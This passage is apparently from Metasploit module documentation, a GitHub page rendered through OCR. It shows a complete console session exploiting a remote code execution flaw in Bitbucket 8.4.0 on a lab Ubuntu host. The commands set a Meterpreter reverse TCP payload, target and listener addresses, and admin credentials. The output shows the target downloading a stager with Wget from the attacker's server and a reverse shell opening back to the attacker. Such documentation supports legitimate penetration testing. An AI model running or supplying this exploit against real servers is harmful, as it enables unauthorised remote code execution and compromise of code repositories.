### Ubuntu 22.04 x64 - Bitbucket `v8.4.0` with mesh.enabled set to false, Linux Dropper

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set target 1
target => 1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username administrator
username => administrator
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password S3cureP@ssword
password => S3cureP@ssword
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Versions 8.* are vulnerable only if the mesh setting is disabled
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'IuNYsZZPl'
[+] Commits added: 560d760fdcbcf210c2c1b6dd04663381002066e5, 53ada0136f82899451c16a00cb939225dba53336
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/qt9f0M
[*] Client 192.168.140.149 (Wget/1.21.2) requested /qt9f0M
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 10 opened (192.168.140.1:4444 -> 192.168.140.149:43360) at 2023-03-14 19:00:00 -0500
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Changing user name back to 'administrator'
[+] Repository has been deleted
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```
